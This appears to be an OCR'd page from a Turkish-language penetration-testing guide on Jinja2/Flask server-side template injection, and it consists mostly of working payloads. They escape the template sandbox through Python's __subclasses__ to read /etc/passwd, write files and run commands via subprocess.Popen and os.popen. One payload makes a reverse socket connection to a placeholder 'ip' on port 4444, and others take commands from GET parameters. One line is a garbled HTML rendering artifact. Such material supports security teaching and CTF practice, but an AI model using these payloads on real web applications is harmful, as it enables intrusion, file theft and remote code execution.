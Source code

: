 ```python





# Not sure if this will work, but I saw it somewhere
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}
```
### RCE Kaçışı

**Kurtarıldıktan sonra** `<class 'object'>` ve `__subclasses__` çağrıldıktan sonra, artık bu sınıfları dosya okumak ve yazmak ve kod çalıştırmak için kullanabiliriz.

`__subclasses__` çağrısı, bize **yüzlerce yeni işleve erişme** fırsatı verdi, sadece **dosya sınıfına** erişerek **dosya okumak/yazmak** veya **komut çalıştırmaya izin veren** (örneğin `os`) bir sınıfa erişerek mutlu olacağız.

**Uzak dosyayı oku/yaz**
```python
# ''.__class__.__mro__[1].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```
**RCE**
```python
# The class 396 is the class <class 'subprocess.Popen'>
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}

# Without '{{' and '}}'

<div data-gb-custom-block data-tag="if" data-0='application' data-1='][' data-2='][' data-3='__globals__' data-4='][' data-5='__builtins__' data-6='__import__' data-7='](' data-8='os' data-9='popen' data-10='](' data-11='id' data-12='read' data-13=']() == ' data-14='chiv'> a </div>

# Calling os.popen without guessing the index of the class
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

## Passing the cmd line in a GET param
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{% endraw %}


## Passing the cmd line ?cmd=id, Without " and '
{{ dict.mro()[-1].__subclasses__()[276](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip() }}

```
Daha fazla **sınıf** öğrenmek için **kaçış** yapabileceğiniz, **kontrol edebilirsiniz**:
